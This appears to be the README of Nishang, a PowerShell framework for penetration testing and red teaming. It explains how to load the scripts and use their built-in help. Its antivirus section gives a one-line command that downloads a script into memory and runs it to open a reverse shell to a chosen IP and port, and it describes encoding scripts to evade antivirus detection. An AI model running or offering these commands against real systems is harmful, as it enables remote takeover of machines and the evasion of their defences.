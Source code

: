#Nishang

###Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.
By [nikhil_mitt](https://twitter.com/nikhil_mitt)

####Usage

Import all the scripts in the current PowerShell session (PowerShell v3 onwards).

PS C:\nishang> Import-Module .\nishang.psm1

Use the individual scripts with dot sourcing.

PS C:\nishang> . C:\nishang\Gather\Get-Information.ps1

PS C:\nishang> Get-Information

To get help about any script or function, use:

PS C:\nishang> Get-Help [scriptname] -full

Note that the help is available for the function loaded after running the script and not the script itself since version 0.3.8. In all cases, the function name is same as the script name.

For example, to see the help about Get-WLAN-Keys.ps1, use

PS C:\nishang> . C:\nishang\Get-WLAN-Keys.ps1

PS C:\nishang> Get-Help Get-WLAN-Keys -Full

####Anti Virus
Nishang scripts are flagged by many Anti Viruses as malicious. The scrripts on a target are meant to be used in memory which is very easy to do with PowerShell. Two basic methods to execute PowerShell scripts in memory:

Method 1. Use the in-memory dowload and execute:
Use below command to execute a PowerShell script from a remote shell, meterpreter native shell, a web shell etc. and the function exported by it. All the scripts in Nishang export a function with same name in the current PowerShell session.

powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]

Method 2. Use the -encodedcommand (or -e) parameter of PowerShell
All the scripts in Nishang export a function with same name in the current PowerShell session. Therefore, make sure the function call is made in the script itself while using encodedcommand parameter from a non-PowerShell shell. For above example, add a function call (without quotes) "Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]".

Encode the scrript using Invoke-Encode from Nishang:

PS C:\nishang> . \nishang\Utility\Invoke-Encode

PS C:\nishang> Invoke-Encode -DataToEncode C:\nishang\Shells\Invoke-PowerShellTcp.ps1 -OutCommand

Encoded data written to .\encoded.txt

Encoded command written to .\encodedcommand.txt
